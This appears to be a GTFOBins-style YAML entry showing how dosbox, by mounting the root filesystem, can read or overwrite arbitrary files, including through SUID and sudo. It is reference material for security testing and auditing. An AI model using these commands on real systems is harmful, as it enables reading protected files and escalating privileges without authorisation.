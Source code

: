 ```yaml
---
description: Basically `dosbox` allows to mount the local file system, so that it can be altered using DOS commands. Note that the DOS filename convention ([8.3](https://en.wikipedia.org/wiki/8.3_filename)) is used.
functions:
  file-read:
    - description: The file content will be displayed in the DOSBox graphical window.
      code: |
        LFILE='\path\to\file_to_read'
        dosbox -c 'mount c /' -c "type c:$LFILE"
    - description: The file is copied to a readable location.
      code: |
        LFILE='\path\to\file_to_read'
        dosbox -c 'mount c /' -c "copy c:$LFILE c:\tmp\output" -c exit
        cat '/tmp/OUTPUT'
  file-write:
    - description: Note that the name of the written file in the following example will be `FILE_TO_`. Also note that `echo` terminates the string with a DOS-style line terminator (`\r\n`), if that's a problem and your scenario allows it, you can create the file outside `dosbox`, then use `copy` to do the actual write.
      code: |
        LFILE='\path\to\file_to_write'
        dosbox -c 'mount c /' -c "echo DATA >c:$LFILE" -c exit
  suid:
    - description: Note that the name of the written file in the following example will be `FILE_TO_`. Also note that `echo` terminates the string with a DOS-style line terminator (`\r\n`), if that's a problem and your scenario allows it, you can create the file outside `dosbox`, then use `copy` to do the actual write.
      code: |
        LFILE='\path\to\file_to_write'
        ./dosbox -c 'mount c /' -c "echo DATA >c:$LFILE" -c exit
  sudo:
    - description: Note that the name of the written file in the following example will be `FILE_TO_`. Also note that `echo` terminates the string with a DOS-style line terminator (`\r\n`), if that's a problem and your scenario allows it, you can create the file outside `dosbox`, then use `copy` to do the actual write.
      code: |
        LFILE='\path\to\file_to_write'
        sudo dosbox -c 'mount c /' -c "echo DATA >c:$LFILE" -c exit
---
```

